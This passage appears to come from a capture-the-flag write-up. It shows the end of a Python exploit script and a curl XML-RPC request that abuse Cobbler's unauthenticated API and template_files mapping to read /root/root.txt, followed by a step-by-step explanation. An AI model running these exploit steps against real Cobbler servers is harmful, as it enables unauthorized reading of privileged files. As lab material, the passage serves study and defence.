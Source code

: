 ```python
srv.modify_system(sid, "template_files", {TARGET_FILE: DEST_FILE}, tok)
srv.save_system(sid, tok)

# 4. Sync changes
srv.sync(tok)

print("[+] Malicious system created.")
print("[+] You can now trigger it using curl to read the file.")
```
After running the previous python script, we can request the flag at `/root/root.txt` using: 
```bash 
curl -X POST http://127.0.0.1:25151 \
-H "Content-Type: text/xml" \
-d '<?xml version="1.0"?>
<methodCall>
  <methodName>get_template_file_for_system</methodName>
  <params>
    <param><value><string>pwnsys</string></value></param>
    <param><value><string>/leak</string></value></param>
  </params>
</methodCall>'
```

Within the request sent back to us, we will have the flag as a response within the XML returned. 

The Python script interacts with Cobbler’s XML-RPC API to exploit the template rendering vulnerability. It performs several actions to manipulate the system configuration and template files:

- **Login:**  
  Uses `srv.login("", -1)` to authenticate with the Cobbler server (empty credentials are accepted for unauthenticated access).  

- **Create a new distribution:**  
  Calls `srv.new_distro(tok)` to create a custom distribution object, then sets fields such as:  
  - `name` → “pwn_distro”  
  - `arch` → “x86_64”  
  - `breed` → “redhat”  
  - `kernel` → path to the kernel (`/boot/vmlinuz-6.1.0-37-amd64`)  
  - `initrd` → path to the initrd image (`/boot/initrd.img-6.1.0-37-amd64`)  
  - Saves the distribution with `srv.save_distro(did, tok)`  

- **Create a new profile:**  
  Calls `srv.new_profile(tok)` and assigns the distribution, naming the profile “pwn_profile,” then saves it.  

- **Create a new system:**  
  Calls `srv.new_system(tok)` to register a system, sets:  
  - `name` → “pwnsys”  
  - `profile` → “pwn_profile”  
  - `template_files` → a dictionary mapping the target file (`/root/root.txt`) to a location inside the template system (`/leak`)  
  - Saves the system and calls `srv.sync(tok)` to apply changes.  

- **Final curl command:**  
  Sends a POST request to Cobbler’s XML-RPC endpoint to call `get_template_file_for_system` with the system name and the template path (`/leak`), causing Cobbler to render the template and return the contents of the target file.  
